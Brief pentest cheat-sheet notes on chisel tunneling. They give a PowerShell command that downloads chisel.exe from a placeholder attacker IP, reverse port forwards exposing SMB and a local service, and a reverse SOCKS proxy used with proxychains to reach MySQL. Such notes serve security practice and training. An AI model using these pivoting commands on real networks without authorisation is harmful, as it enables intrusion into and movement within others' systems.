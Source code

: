 https://github.com/jpillora/chisel/releases

```bash
Invoke-WebRequest -Uri http://<ip>:8000/chisel.exe -OutFile chisel.exe
```

```bash
./chisel.exe client <ip>:8080 R:445:localhost:445

chisel client <ip>:8080 R:3000:localhost:3000

chisel server --reverse --socks5
.\chisel.exe server --reverse --socks5
```
## Proxychains
```bash
chisel server --reverse --socks5 --port 9999

chisel client <ip>:9999 R:socks

proxychains mysql -u username -p password -h 127.0.0.1:1080
```

## Port Forwarding
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/